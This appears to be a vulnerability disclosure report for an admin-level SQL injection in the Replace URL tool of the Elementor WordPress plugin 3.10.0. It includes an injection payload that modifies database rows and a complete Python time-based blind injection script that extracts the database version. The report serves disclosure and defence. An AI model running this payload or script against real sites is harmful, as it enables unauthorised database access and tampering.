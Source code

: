 # Admin + Sqli in Replace URL Module

**Affected Product**

Elementor Website Builder Wordpress plugin

**Version:** 3.10.0

**Severity**: Medium

**CVSS v3 Score:** 6.6:[AV:N/AC:L/PR:H/UI:N/S:U/C:N/I:H/A:L/E:F/RL:W/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:H/MUI:N/MS:U/MC:N/MI:H/MA:L](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:U/C:N/I:H/A:L/E:F/RL:W/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:H/MUI:N/MS:U/MC:N/MI:H/MA:L&version=3.1)

**Description**

Replace URL in Tools module is vulnerable to SQL Injection. 

**Steps to Reproduce**

1. Install the Elementor Free plugin.
2. Login with the admin role and activate the plugin.
3. Navigate to the tools section in the plugin.

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled.png)

1. Before the injection, meta_key of the meta_id 99999 is key3

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%201.png)

1. Navigate to “Replace URL” section and insert the SQLi payload in the “new-uri” field.

Payload: [`http://localhost:8000/?test'),meta_key='key4'where+meta_id=99999;#`](http://localhost:8000/?test%27),meta_key=%27key4%27where+meta_id=99999;#)

Above payload will update the meta_key to key4 of meta_id=999999

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%202.png)

1. Click on the Replace URL and Observe the popup “One Row Updated”. we can confirm the same in the database as well.

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%203.png)

**Vulnerable Code Snippets:**

1. URL is directly being used in the query statement after validating it with “filter_var( $from, FILTER_VALIDATE_URL )” which can be bypassed.
    
    ![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%204.png)
    
    wp-content/plugins/elementor/includes/utils.php#L172-184

**Exploit**

```python3
import requests as r 
import string
from requests import Timeout
import urllib.parse
import time
import re

url = "http://localhost:8000/payatu/wordpress/wp-admin/admin-ajax.php?_fs_blog_admin=true"
#proxies = {"http":"http://localhost:8080"}
possibilites = string.digits+'-.'+string.ascii_lowercase
data = "action=elementor_replace_url&from=http%3A%2F%2Flocalhost%3A8000&to=http%3A%2F%2Flocalhost%3A8000%2F%3Ftest')%2Cmeta_key%3D'key7'where%2Bmeta_id%3D(99999)and((IF((SELECT%2Bversion()like'{}%25')%2Csleep(2)%2C0)))%3B%23&_nonce=6253de9ef8"
version = ""
headers = {"Cookie":"wordpress_logged_in_e695f32e6b8dbfe4dad4de7d8125134d=<redacted>;","Content-Type":"application/x-www-form-urlencoded; charset=UTF-8"}

while 1:
    for char in possibilites:
        try:
            body = data.format(version+char)
            res = r.post(url,data=body,timeout=2,headers=headers)

        except Timeout:
            version+=char
            print(version)
            break
```

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/sqlDatabase.png)
